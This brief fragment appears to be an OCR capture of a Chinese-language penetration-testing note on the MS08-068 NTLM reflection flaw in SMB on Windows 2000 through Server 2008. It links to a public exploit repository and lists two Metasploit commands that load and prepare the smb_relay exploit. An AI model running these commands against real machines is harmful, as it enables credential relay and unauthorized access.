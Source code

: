	SMB 协议中的 NTLM 反射漏洞仅针对 Windows 2000 到 Windows Server 2008
	此漏洞允许攻击者将传入的 SMB 连接重定向回它来自的计算机，然后使用受害者自己的凭据访问受害者计算机
	https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS08-068
	msf > use exploit/windows/smb/smb_relay
	msf exploit(smb_relay) > show targets